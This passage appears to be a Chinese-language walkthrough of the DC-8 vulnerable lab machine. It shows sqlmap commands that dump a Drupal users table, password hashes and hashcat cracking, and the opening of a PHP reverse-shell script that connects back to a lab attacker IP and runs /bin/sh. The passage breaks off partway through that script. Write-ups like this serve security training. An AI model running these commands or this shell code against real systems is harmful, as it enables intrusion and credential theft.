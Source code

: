 使用sqlmap扫描

```
sqlmap -u "http://172.16.89.9/?nid=1" --dbs
sqlmap -u "http://172.16.89.9/?nid=1" -D d7db --tables
sqlmap -u "http://172.16.89.9/?nid=1" -D d7db -T users --dump
```

发现admin和john密码hash

```
$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z
$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF
```

使用hashcat跑一下

```
echo "\$S\$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z" > dc8_pass.txt
echo "\$S\$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF" >> dc8_pass.txt
hashcat -m 7900 -a 0 dc8_pass.txt /usr/share/john/password.lst -o result.txt --show
```

![image-20211006231522611](/assets/img/image-20211006231522611.png)

跑出了john的密码turtle，在http://172.16.89.9/user下登陆，后台有一个设置php代码的地方

![image-20211006233225903](/assets/img/image-20211006233225903.png)

设置php回弹shell代码，在表单提交时触发

```php
aaa
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '172.16.89.2';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
```